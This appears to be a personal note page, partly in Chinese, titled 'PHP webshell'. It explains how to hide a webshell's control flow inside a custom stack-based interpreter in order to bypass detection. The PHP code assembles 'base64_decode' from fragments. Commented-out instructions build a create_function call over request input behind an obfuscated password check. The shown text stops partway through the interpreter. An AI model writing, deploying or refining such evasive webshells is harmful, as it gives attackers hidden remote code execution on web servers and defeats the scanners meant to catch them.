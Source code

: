 # PHP webshell
	- 首先写一个解释器用来隐藏控制流，之后的绕过重点就是“分支对抗绕过”和“不确定值对抗绕过”了
		- 解释器代码如下
		  collapsed:: true
			- ```php
			  <?php
			  
			  $code = [
			      ["define", "make_b64", 12],
			      ["push", "bas"],
			      ["push", "e64_"],
			      ["push", "dec"],
			      ["push", "ode"],
			      ["swap",],
			      ["concat",],
			      ["swap",],
			      ["concat",],
			      ["swap",],
			      ["concat",],
			      ["swap",],
			      ["jump",],
			  
			      // ["scall", "make_b64"],
			  
			      // ["push", 'return array_push($GLOBALS["stack"], $_REQUEST);'],
			      // ["push", ''],
			      // ["push", "create_function"],
			      // ["call2"],
			      // ["call0"],
			      // ["pop"],
			      // ["push", "pswd"],
			      // ["get"],
			      // ["addby", 114000],
			      // ["addby", 514],
			      // ["if", ["shift", 8]],
			  
			      // ["push", "1"],
			      // ["get"],
			      // ["push", 'return '],
			      // ["concat"],
			      // ["push", ''],
			      // ["push", "create_function"],
			      // ["call2"],
			      // ["call0"],
			  
			  ];
			  
			  $stack = [];
			  $gotos = [];
			  $p = 0;
			  
			  function evaluate($c)
			  {
			      global $stack, $gotos, $p;
			      if ($c[0] == "push") {
			          array_push($stack, $c[1]);
			      } else if ($c[0] == "pop") {
			          array_pop($stack);
			      } else if ($c[0] == "swap") {
			          $a = array_pop($stack);
			          $b = array_pop($stack);
			          array_push($stack, $a);
			          array_push($stack, $b);
			      } else if ($c[0] == "concat") {
			          $a = array_pop($stack);